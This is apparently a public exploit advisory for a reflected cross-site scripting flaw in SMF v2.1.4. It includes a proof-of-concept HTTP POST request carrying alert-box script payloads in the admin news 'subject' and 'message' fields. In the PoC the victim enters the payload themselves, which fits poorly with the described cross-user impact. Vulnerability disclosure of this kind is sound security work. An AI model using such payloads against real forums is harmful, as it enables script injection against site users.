 # Exploit Title: SMF v2.1.4 - Cross-Site Scripting (XSS)
## Date: 1/3/2025
## Vendor Homepage: https://github.com/SimpleMachines/SMF
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SimpleMachines
## Version: v2.1.4
## Exploit Description:
## SMF v2.1.4 suffers from Reflected Cross-Site Scripting (XSS) Vulnerability in the 'subject' parameter of the 'ManageNews.php' script. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------
1. Victim sets the 'subject' parameter to the payload
2. Victim clicks on the 'Preview' button
```
POST /index.php?action=admin;area=news;sa=mailingsend HTTP/1.1
...

subject=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E(INJECT HERE)&message=%3Cscript%3Ealert%28%27comment%27%29%3C%2Fscript%3E%0D%0A&message_mode=0&preview=%E9%A2%84%E8%A7%88&c07825d64=a3a2b4dce90f74817c84b935881afe62&email_force=0&total_emails=0&members=&exclude_members=&groups=0%2C1%2C2%2C3&exclude_groups=&emails=
```
3. The payload is executed

